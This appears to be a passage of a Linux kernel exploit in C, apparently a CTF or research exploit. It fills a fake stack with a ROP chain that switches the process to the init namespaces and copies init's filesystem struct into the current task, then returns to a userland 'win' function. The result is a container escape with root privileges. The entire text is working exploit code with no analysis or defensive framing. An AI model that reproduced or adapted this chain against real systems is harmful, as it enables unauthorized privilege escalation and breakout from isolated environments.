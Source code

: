 ```c
		// task = find_task_by_vpid(1)
		*(ul*) &fake_stack[0x10a0] = POP_RDI +  *kbase;
		*(ul*) &fake_stack[0x10a8] =  1;
		*(ul*) &fake_stack[0x10b0] = FIND_TASK_BY_VPID +  *kbase;
		  
		// switch_task_namespaces(task, init_nsproxy)
		*(ul*) &fake_stack[0x10b8] = POP_RDI +  *kbase;
		*(ul*) &fake_stack[0x10c0] = (ul) &fake_stack[0x10e8];
		*(ul*) &fake_stack[0x10c8] = POP_RCX +  *kbase;
		*(ul*) &fake_stack[0x10d0] =  8;
		*(ul*) &fake_stack[0x10d8] = MOV_QWORD_RDI_RAX +  *kbase;
		*(ul*) &fake_stack[0x10e0] = POP_RDI +  *kbase;
		*(ul*) &fake_stack[0x10e8] =  0x6969696969696969;
		*(ul*) &fake_stack[0x10f0] = POP_RSI +  *kbase;
		*(ul*) &fake_stack[0x10f8] = INIT_NSPROXY +  *kbase;
		*(ul*) &fake_stack[0x1100] = SWITCH_TASK_NAMESPACES +  *kbase;

		// new_fs = copy_fs_struct(init_fs)
		*(ul*) &fake_stack[0x1108] = POP_RDI +  *kbase;
		*(ul*) &fake_stack[0x1110] = INIT_FS +  *kbase;
		*(ul*) &fake_stack[0x1118] = COPY_FS_STRUCT +  *kbase;

		// save "somewhere" new_fs
		*(ul*) &fake_stack[0x1120] = POP_RDI +  *kbase;
		*(ul*) &fake_stack[0x1128] = (ul) &fake_stack[0x1f00];
		*(ul*) &fake_stack[0x1130] = POP_RCX +  *kbase;
		*(ul*) &fake_stack[0x1138] =  8;
		*(ul*) &fake_stack[0x1140] = MOV_QWORD_RDI_RAX +  *kbase;

		// task = find_task_by_vpid(getpid())
		*(ul*) &fake_stack[0x1148] = POP_RDI +  *kbase;
		*(ul*) &fake_stack[0x1150] = (ul) parent_child;
		*(ul*) &fake_stack[0x1158] = FIND_TASK_BY_VPID +  *kbase;

		// current->fs = newfs
		*(ul*) &fake_stack[0x1160] = POP_RDI +  *kbase;
		*(ul*) &fake_stack[0x1168] = (ul) &fake_stack[0x11b8];
		*(ul*) &fake_stack[0x1170] = POP_RCX +  *kbase;
		*(ul*) &fake_stack[0x1178] =  8;
		*(ul*) &fake_stack[0x1180] = MOV_QWORD_RDI_RAX +  *kbase;
		*(ul*) &fake_stack[0x1188] = POP_RSI +  *kbase;
		*(ul*) &fake_stack[0x1190] =  0x760;
		*(ul*) &fake_stack[0x1198] = POP_RDX +  *kbase;
		*(ul*) &fake_stack[0x11a0] = (ul) &fake_stack[0x11b8] -  0x760  -  1;
		*(ul*) &fake_stack[0x11a8] = ADD_DWORD_RSIRDX1_ESI +  *kbase;
		*(ul*) &fake_stack[0x11b0] = POP_RDI +  *kbase;
		*(ul*) &fake_stack[0x11b8] =  0x6969696969696969;
		*(ul*) &fake_stack[0x11c0] = POP_RSI +  *kbase;
		*(ul*) &fake_stack[0x11c8] = (ul) &fake_stack[0x1f00];
		*(ul*) &fake_stack[0x11d0] = POP_RCX +  *kbase;
		*(ul*) &fake_stack[0x11d8] =  8;
		*(ul*) &fake_stack[0x11e0] = REP_MOVS_ALTERNATIVE +  *kbase;

		// ret2user
		*(ul*) &fake_stack[0x11e8] = SWAPGS_AND_SHIT +  *kbase;
		*(ul*) &fake_stack[0x11f0] =  0;
		*(ul*) &fake_stack[0x11f8] =  0;
		*(ul*) &fake_stack[0x1200] = (ul) &win;
		*(ul*) &fake_stack[0x1208] =  0x33;
		*(ul*) &fake_stack[0x1210] =  0x206;
		*(ul*) &fake_stack[0x1218] = rsp;
		*(ul*) &fake_stack[0x1220] =  0x2b;

```